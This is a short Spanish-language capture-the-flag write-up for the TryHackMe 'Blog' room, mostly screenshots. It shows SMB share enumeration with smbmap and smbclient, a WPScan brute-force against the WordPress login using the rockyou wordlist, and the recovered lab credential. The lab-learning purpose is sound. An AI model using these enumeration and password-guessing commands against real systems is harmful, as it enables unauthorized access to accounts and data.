

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/tryhackme/blog/index.html · generator: mkdocs

# Blog

samba>

![](../../assets/img/Pasted_image_20251015152134.png)

![](../../assets/img/Pasted_image_20251015153241.png)

![](../../assets/img/Pasted_image_20251015160524.png)

![](../../assets/img/Pasted_image_20251015160559.png)

![](../../assets/img/Pasted_image_20251015160926.png)

Usuarios encontrado en la ref del f12 de la pag principal
*bjoel*
*kwheel*

Se puede hacer consultando SMB
`smbmap -H 10.10.157.115`

![](../../assets/img/Pasted_image_20251015164537.png)

Vemos el usario *BillySMB*

Entramos con ese usuario
`smbclient /10.10.157.115/BillySMB`
`ls`

![](../../assets/img/Pasted_image_20251015164823.png)

hacemos un `get` a todos los archivos, usamos `exiftool extract -sf imagen` pero no encuentro nada.

Hacemos wpscan:
`wpscan --url blog.thm -U kwheel,bjoel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login`
- password-attack : ataque de fuerza bruta
- wp-login : el recurso que tiene que logear por fuerza bruta
**kwheel:cutiepie1**
